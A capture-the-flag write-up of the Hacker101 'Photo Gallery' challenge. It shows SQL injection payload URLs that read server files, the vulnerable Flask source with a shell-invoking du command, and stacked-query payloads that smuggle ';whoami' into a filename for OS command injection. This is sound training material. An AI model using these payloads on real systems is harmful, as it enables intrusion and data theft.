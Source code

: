 +++
title = "Photo Gallery"
date = 2020-12-30
[taxonomies]
tags = ["hackerone"]
+++

### Flag0

1. "Magical Image Gallery"

    ![h1-photogallery-1.png](h1-photogallery-1.png)

    The images are fetched by using `id` parameters as such:

    ```
    http://34.74.105.127/9c4252a0af/fetch?id=1
    ```

    When sending a GET request directly, the server doesn't render the URL as an image but as raw format. From past CTF experiences, this is usually a case of extracting a system file to obtain the flag.
    
    After roaming around the web application and performing basic enumeration tests, there wasn't other obvious possible footholds. Therefore my assumption is a SQL injection attack is most likely a possibility.

2. Revealing Flag0 hints the web application is running [uwsgi-nginx-flask-docker](https://github.com/tiangolo/uwsgi-nginx-flask-docker) image. After reviewing the repository, I can only assume that I'm suppose to read a file using SQL injection now that we know what framework is being used.

    With every docker image, there is always a `Dockerfile` that is included. After trial and error, a `union select` method was used to retrieve the `Dockerfile`.

    ```
    http://34.74.105.127/9c4252a0af/fetch?id=4%20union%20select%20%27Dockerfile%27
    ```

    Output:
    ```
    FROM tiangolo/uwsgi-nginx-flask:python2.7 WORKDIR /app RUN apt-get update RUN DEBIAN_FRONTEND=noninteractive apt-get install -y mysql-client mysql-server default-libmysqlclient-dev build-essential ADD requirements.txt /app/ RUN pip install --trusted-host pypi.python.org -r requirements.txt ADD . /app
    ```

    The output looks similar to the `Dockerfile` included in the repository with the exception two things:
    1. Installation of dependencies using `apt` and `pip`.
    2. Working directory is located in `/app`
    
    Going through the enumeration phase again, I checked out what is inside `requirements.txt`.

    ```
    Flask mysqlclient pycrypto
    ```

    Nothing interesting is found. Looking back into the Github repository, there was an `/app` directory that contains `main.py`, `prestart.sh`, and `uwsgi.ini`. After probing the three files, the `main.py` contains Flag0.

    ![h1-photogallery-1.png](h1-photogallery-2.png) 

### Flag1

1. Now that we can see the source code, a review is performed.

    ```python
    from flask import Flask, abort, redirect, request, Response
    import base64, json, MySQLdb, os, re, subprocess
    
    app = Flask(__name__)
    
    home = '''
    <!doctype html>
    <html>
    	<head>
    		<title>Magical Image Gallery</title>
    	</head>
    	<body>
    		<h1>Magical Image Gallery</h1>
    $ALBUMS$
    	</body>
    </html>
    '''
    
    viewAlbum = '''
    <!doctype html>
    <html>
    	<head>
    		<title>$TITLE$ -- Magical Image Gallery</title>
    	</head>
    	<body>
    		<h1>$TITLE$</h1>
    $GALLERY$
    	</body>
    </html>
    '''
    
    def getDb():
    	return MySQLdb.connect(host="localhost", user="root", password="", db="level5")
    
    def sanitize(data):
    	return data.replace('&', '&amp;').replace('<', '&lt;').replace('>', '&gt;').replace('"', '&quot;')
    
    @app.route('/')
    def index():
    	cur = getDb().cursor()
    	cur.execute('SELECT id, title FROM albums')
    	albums = list(cur.fetchall())
    
    	rep = ''
    	for id, title in albums:
    		rep += '<h2>%s</h2>\n' % sanitize(title)
    		rep += '<div>'
    		cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))
    		fns = []
    		for pid, ptitle, pfn in cur.fetchall():
    			rep += '<div><img src="fetch?id=%i" width="266" height="150"><br>%s</div>' % (pid, sanitize(ptitle))
    			fns.append(pfn)
    		rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
    		rep += '</div>\n'
    
    	return home.replace('$ALBUMS$', rep)
    
    @app.route('/fetch')
    def fetch():
    	cur = getDb().cursor()
    	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
    		abort(404)
    
    	# It's dangerous to go alone, take this:
    	# ^FLAG^XXXXXX$FLAG$
    
    	return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()
    
    if __name__ == "__main__":
    	app.run(host='0.0.0.0', port=80)
    ```

2. This part of the code stood out as dangerous:

    ```python
    rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
    ```

    The "spaced used" is displayed using `du -ch` with a supplied user input from `%s`. This bad coding practice is susceptible to OS command line injection. Even though a part of the code does have an input sanitization function in place, it doesn't sanitize for semi-colon which is commonly used for injection type attacks.

    To exploit the vulnerability, the `id` parameter needs to be escaped using a semi-colon to close the SQL statement and inject an `update` statement.

    ```sql
    http://34.74.105.127/9c4252a0af/fetch?id=1; update photos set filename="whoami" where id=1; commit
    ```

    ![h1-photogallery-3.png](h1-photogallery-3.png) 

    As you can see, the command did execute and parsed on the web page but for some reason the command is showing a try exception. After trial and error, the `du -ch %s` needs to be escaped as well using semi-colon for the OS command to execute.

    ```sql
    http://34.74.105.127/9c4252a0af/fetch?id=1; update photos set filename=";whoami" where id=1; commit   
    ```

    In the real world, this evidence is enough to submit a bug bounty report but because this is a CTF so we need to find the second flag. Additional hints reveal something about being aware of the environment. After digging around what this means, the final two flags can be found in `/proc/self/environ`.
